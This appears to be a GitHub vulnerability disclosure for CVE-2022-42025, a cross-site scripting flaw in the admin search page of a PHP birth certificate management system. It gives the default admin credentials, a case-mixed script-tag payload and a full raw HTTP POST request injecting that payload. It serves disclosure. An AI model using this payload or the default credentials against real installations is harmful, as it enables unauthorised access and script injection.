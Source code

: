 # CVE-2022-42025 nline Birth Certificate Management System - XSS

A vulnerability classified as problematic was found in Online Birth Certificate Management System . This vulnerability affects unknown code. The manipulation of the argument search.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/admin/search.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/admin/search.php has XSS

> Payload: <sCrIpT>alert(1)</sCrIpT>

XSS because `$sdata` can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/3.png)

## Payload

```sql
POST /CVE/OBCMS/admin/search.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 56
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: user_login=admin; userpassword=admin123; PHPSESSID=4okk1vi8496nglrc7ut709vl37
Origin: http://127.0.0.1
Referer: http://127.0.0.1/CVE/OBCMS/admin/search.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

search=&searchdata=%3CScRiPt%3Edspqgvzxyj%3C%2FsCrIpT%3E
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/4.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/5.png)